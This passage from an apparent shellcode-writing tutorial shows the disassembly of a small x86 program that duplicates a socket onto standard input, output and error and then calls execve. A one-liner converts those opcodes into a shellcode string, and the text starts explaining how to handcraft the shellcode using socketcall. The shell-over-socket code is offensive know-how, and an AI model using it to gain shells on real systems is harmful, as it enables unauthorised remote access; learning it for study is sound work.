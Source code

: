 ```
 711:	83 c4 10             	add    esp,0x10
 714:	83 ec 08             	sub    esp,0x8
 717:	6a 01                	push   0x1
 719:	ff 75 f4             	push   DWORD PTR [ebp-0xc]
 71c:	e8 7f fd ff ff       	call   4a0 <dup2@plt>
 721:	83 c4 10             	add    esp,0x10
 724:	83 ec 08             	sub    esp,0x8
 727:	6a 02                	push   0x2
 729:	ff 75 f4             	push   DWORD PTR [ebp-0xc]
 72c:	e8 6f fd ff ff       	call   4a0 <dup2@plt>
 731:	83 c4 10             	add    esp,0x10
 734:	83 ec 04             	sub    esp,0x4
 737:	6a 00                	push   0x0
 739:	6a 00                	push   0x0
 73b:	8d 83 ea e7 ff ff    	lea    eax,[ebx-0x1816]
 741:	50                   	push   eax
 742:	e8 89 fd ff ff       	call   4d0 <execve@plt>
 747:	83 c4 10             	add    esp,0x10
 74a:	b8 00 00 00 00       	mov    eax,0x0
 74f:	8d 65 f8             	lea    esp,[ebp-0x8]
 752:	59                   	pop    ecx
 753:	5b                   	pop    ebx
 754:	5d                   	pop    ebp
 755:	8d 61 fc             	lea    esp,[ecx-0x4]
 758:	c3                   	ret    
 759:	66 90                	xchg   ax,ax
 75b:	66 90                	xchg   ax,ax
 75d:	66 90                	xchg   ax,ax
 75f:	90                   	nop
```

We can extract the opcodes using this one-liner:

    objdump -d ./client|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

Piping this into *wc -c* shows how many bytes this shellcode has:

    865

In order to reduce the size of this shellcode we must code it by hand.

## Handcrafted shellcode

My idea here is not to generate a small shellcode, but a comprehensible one.

In order to write the shellcode by hand I made good use of both *strace* and *gdb-peda*. The first one was very useful for detecting silly mistakes related the order the parameters were being pushed and things alike. The second one allowed me to debug closely, checking the stack and registers at the same time.

Before starting to write into a blank (actually it is black but anyway) screen, I had to understand how socket related syscalls are used in x86. I must confess I was expecting a few syscalls like *socket*, *connect* and so on. For my surprise, all of these are included in one unique syscall named [socketcall](http://man7.org/linux/man-pages/man2/socketcall.2.html). 
